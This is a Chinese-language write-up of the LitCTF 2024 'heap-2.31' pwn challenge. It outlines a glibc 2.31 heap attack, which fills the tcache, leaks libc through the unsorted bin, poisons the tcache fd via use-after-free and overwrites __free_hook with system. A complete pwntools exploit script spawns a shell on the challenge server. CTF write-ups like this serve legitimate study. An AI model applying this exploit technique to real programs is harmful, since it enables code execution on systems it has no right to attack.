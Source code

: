```yaml
---
title: '[LitCTF 2024]heap-2.31'
date: 2024-11-13 13:50 +0800
categories: [ctf,pwn]
tags: [unsortbin_leaklibc,tacahe,libc2.31,free_hook]
---
```

> Problem: [[LitCTF 2024]heap-2.31](https://www.nssctf.cn/problem/5616)

## 思路

填满`tacahe`，利用`unsortbin`泄漏出`free_hook`,利用`uaf`修改`tacahe`的`fd`实现任意内存地址读写，劫持`free_hook`

## EXP

```python3
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF('./heap')
lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28242)
def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'idx?',str(idx))
    io.sendlineafter(b'size?',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'idx?',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'idx?',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'idx?',str(idx))
    io.sendlineafter(b'content : \n',content)

for i in range(9):
    create(i,0x88)
for i in range(8):
    delete(i)

show(7)
free_hook = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))+0x2268
log.info(hex(free_hook))
lib_base = free_hook-lib.sym['__free_hook']
sys_addr = lib_base+lib.sym['system']

edit(5,p64(free_hook))
[create(i,0x88)for i in range(10,13)]
edit(12,p64(sys_addr))

edit(8,b'/bin/sh\x00')
delete(8)
io.interactive()
```

## 总结

要注意`tacahe`利用`uaf`修改为`free_hook`地址时，不能使用最末尾（第七个）的块，那样会导致无法申请，出现脱链的状况。
